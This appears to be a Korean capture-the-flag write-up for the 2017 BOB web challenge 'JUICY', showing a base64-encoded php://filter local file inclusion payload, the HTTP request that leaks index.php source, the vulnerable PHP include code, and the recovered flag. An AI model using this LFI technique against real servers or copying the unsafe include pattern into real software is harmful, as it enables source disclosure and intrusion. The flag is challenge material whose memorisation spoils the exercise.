


# [2017_BOB] \[WEB] JUICY

### Problem

서버 - http://ctf.ikeeper.kr:56780/



일반적인 웹페이지입니다.



메뉴 탭에 들어갈 때 페이지를 어떤식으로 불러오는지 확인해보니 base64로 인코딩 된 문자열을 전송하는 것을 볼 수 있었습니다. PHP Wrapper를 이용한 LFI 공격이 가능할 것이라는 생각이 들었습니다.


### Solution

```
>>> base64.encodestring("php://filter/convert.base64-encode/resource=menu")
'cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1tZW51\n'
```

base64 encoding

```
Anti-Vulnerability:forensic DelspoN$ http -f POST http://ctf.ikeeper.kr:56780/ page=cGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1tZW51
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 418
Content-Type: text/html; charset=UTF-8
Date: Sat, 19 Aug 2017 14:51:16 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16

<!DOCTYPE html>
<html>

PGh0bWw+DQoNCjw/cGhwIGluY2x1ZGUoJ2hlYWQuaHRtbCcpOz8+DQoNCjxkaXYgY2xhc3M9ImNvbnRhaW5lci1mbHVpZCI+DQoJPGRpdiBjbGFzcz0icm93Ij4NCgkJPGRpdj4NCgkJCTxpbWcgc3JjPSIvc3RhdGljL2ltYWdlL21lbnUxLnBuZyIgd2lkdGg9IjEwMCUiPg0KCQkJPGltZyBzcmM9Ii9zdGF0aWMvaW1hZ2UvbWVudTIucG5nIiB3aWR0aD0iMTAwJSI+IDwhLS0gLS0+DQoJCTwvZGl2Pg0KCTwvZGl2Pg0KPC9kaXY+DQoNCjw/cGhwIGluY2x1ZGUoJ3RhaWwuaHRtbCcpOz8+DQoNCjwvaHRtbD4=</html>
```

정상적으로 php 소스코드를 불러올 수 있었습니다. 

```php
<!DOCTYPE html>
<html>

<?php

$page = $_POST['page'];

//var_dump($page);
if(empty($page))
	include 'main.php';
else {
	$page_decode = base64_decode($page);
	$page_decode = str_replace('..', '', addslashes($page_decode));
	$page_decode = str_replace('<', '', addslashes($page_decode));
	$page_decode = str_replace('>', '', addslashes($page_decode));
	$page_decode = str_replace('?', '', addslashes($page_decode));

	if(strpos($page_decode, "bab9fb29534df5d6c58b1375687e3f72") !== false)
		include 'main.php';


	if(strcmp($page_decode,"_juicy_admin_page") === 0)
		include 'bab9fb29534df5d6c58b1375687e3f72.php';
	else
		include $page_decode.".php";
}
?>
```

index.php를 확인해보니 수상한 파일이 있었습니다.


```php
<?php 

$id = $_POST['id'];
$pw = $_POST['pw'];


if(!empty($id) && !empty($pw)){
	
	$id = str_replace("admin", "aaddmmiinn", $id);
	$pw = md5($pw);


	if(strcmp($id, "admin") == 0){
		echo "<script>alert('flag is {D0_y0u_1ike_Strawberry&Banana?}');</script>";
	}
	else{
		echo "<script>alert('Login Failed..');</script>";
	}
}

?>

<?php include 'head.html'; ?>

<div class="container-fluid" style="background-color:#F9EE45">
	<div class="container">
		<div class="row">
			<h1>admin page</h1>
			<form action="/bab9fb29534df5d6c58b1375687e3f72.php" method="post" id="menu">
				ID : <input type="text" name="id" value="" /><br />
				PW : <input type="password" name="pw" value="" />
				<button >submit</button> 
			</form>
				<!-- bab9fb29534df5d6c58b1375687e3f72.phps -->
		</div>
	</div>
</div>

<?php include 'tail.html';?>
```

이 파일을 확인하여 flag를 획득했습니다.